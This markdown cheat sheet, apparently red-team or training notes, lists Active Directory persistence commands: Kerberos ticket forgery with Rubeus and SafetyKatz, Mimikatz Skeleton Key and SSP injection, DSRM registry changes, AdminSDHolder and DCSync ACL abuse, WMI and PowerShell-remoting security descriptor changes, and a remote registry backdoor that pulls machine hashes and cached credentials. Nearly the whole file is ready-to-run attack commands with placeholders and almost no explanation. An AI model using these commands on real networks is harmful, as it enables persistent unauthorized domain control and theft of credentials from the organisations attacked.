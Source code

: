 # Persistance

- [Silver Ticket](#silver-ticket)
- [Golden Ticket](#golden-ticket)
- [Diamond Ticket](#diamond-ticket)
- [Skeleton Key](#skeleton-key)
- [DSRM](#directory-services-restore-mode)
- [Custom SSP](#custom-ssp)
- [AddminSDHolder](#AddminsdHolder)
- [Right Abuse](#right-abuse)
- [Security Descriptors](#security-descriptors)
- [Remote Registery](#remote-registery)

## Silver Ticket 

```
    Rubeus.exe silver /service:<service>/<target.domain> /rc4:<rc4> /ldap /sid:S-1-5-21-210670787-2521448726-163245708 /user:<user> /domain:<domain> /ptt
```

## Golden Ticket

```
    SafetyKatz.exe '"kerberos::golden /User:<user> /domain:<domain> /sid:<sid> /target:<domain> /service:<service> /rc4:<rc4> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

## Diamond Ticket


```
    Rubeus.exe diamond /krbkey:<hash> /user:<user> /password:<password> /enctype:<aes/rc4> /ticketuser:<user> /domain:<domain> /dc:<dc> /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Skeleton Key
DA privileges required

```
    mimikatz.exe "privilege::debug" "misc::skeleton"' -ComputerName <target>' 'exit'
```

## Directory Services Restore mode
DA privileges required

```
    Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

```
    Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior #Check if the key exists and get the value
    New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD #Create key with value "2" if it doesn't exist
    Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  #Change value to "2"
```

```
    sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<ntlm> /run:<command>
```

##  Custom SSP

```
    $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' $packages += "mimilib"

    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages 
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

```
SafetyKatz.exe '"misc::memssp"'
```

## AdminSDHolder

Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA
```
    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=,dc=' -PrincipalIdentity <user> -Rights All -PrincipalDomain <domain> -TargetDomain <target> -Verbose
```

Using ActiveDirectory Module and RACE toolkit
```
    Set-DCPermissions -Method AdminSDHolder -SAMAccountName <user> -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,dc=,dc=techcorp' -Verbose
```

ResetPassword
```
    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=,dc=' -PrincipalIdentity <user> -Rights ResetPassword -PrincipalDomain <domain> -TargetDomain <target> -Verbose
```

WriteMembers
```
    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=,dc=' -PrincipalIdentity <user> -Rights WriteMembers -PrincipalDomain <target> -TargetDomain <domain> -Verbose
```

Run SDProp manually using Invoke-SDPropagator.ps1
```
    Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008 machines
```
    Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

Check the Domain Admins permission using powerview
```
    Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<user>"}
```

Check the Domain Admins permission Using ActiveDirectory Module
```
    (Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match '<user>'}
```

Abusing FullControl using PowerView:
```
	Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

Using ActiveDirectory Module:
```
	Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

Abusing ResetPassword using PowerView:
```
	Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

Using ActiveDirectory Module:
```
	Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

## Right abuse

Add FullControl rights
```
	Add-DomainObjectAcl -TargetIdentity "dc=,dc=l" -PrincipalIdentity <user> -Rights All -PrincipalDomain <domain> -TargetDomain <domain> -Verbose
```

Using ActiveDirectory Module and RACE
```
	Set-ADACL -SamAccountName <user> -DistinguishedName 'DC=,DC=' -Right GenericAll -Verbose
```


Add rights for DCSync
```
	Add-DomainObjectAcl -TargetIdentity "dc=,dc=" -PrincipalIdentity <user> -Rights DCSync -PrincipalDomain <domain> -TargetDomain <domain> -Verbose
```

Using ActiveDirectory Module and RACE
```
	Set-ADACL -SamAccountName <user> -DistinguishedName 'dc=,dc=' -GUIDRight DCSync -Verbose
```

## Security Descriptors

### Using race

On local machine
```
    Set-RemoteWMI -SamAccountName <user> –Verbose
```

On remote machine without explicit credentials
```
    Set-RemoteWMI -SamAccountName <user> -ComputerName <target> -Verbose
```

On remote machine with explicit credentials
```
    Set-RemoteWMI -SamAccountName <user> -ComputerName <target> -Credential Administrator –namespace 'root\cimv2' -Verbose
```

On remote machine remove permissions
```
    Set-RemoteWMI -SamAccountName <user> -ComputerName <target> -Remove
```

### PowerShel Remoting

Using the RACE toolkit

On local machine
```
   Set-RemotePSRemoting -SamAccountName <user> –Verbose
```

On remote machine for <user> without credentials
```
	Set-RemotePSRemoting -SamAccountName <user>-ComputerName <target> -Verbose
```

On remote machine, remove the permissions
```
	Set-RemotePSRemoting -SamAccountName <user> -ComputerName <target> -Remove
```

## Remote Registry

Using RACE or DAMP toolkit, with admin privs on remote machine
```
	Add-RemoteRegBackdoor -ComputerName <target> -Trustee studentuser1 -Verbose
```

 retrieve machine account hash
 ```
	Get-RemoteMachineAccountHash -ComputerName <target> -Verbose
```

Retrieve local account hash
```
	Get-RemoteLocalAccountHash -ComputerName <target> -Verbose
```

Retrieve domain cached credentials
```
	Get-RemoteCachedCredential -ComputerName <target> -Verbose
```


[Back to the top](#persistance)
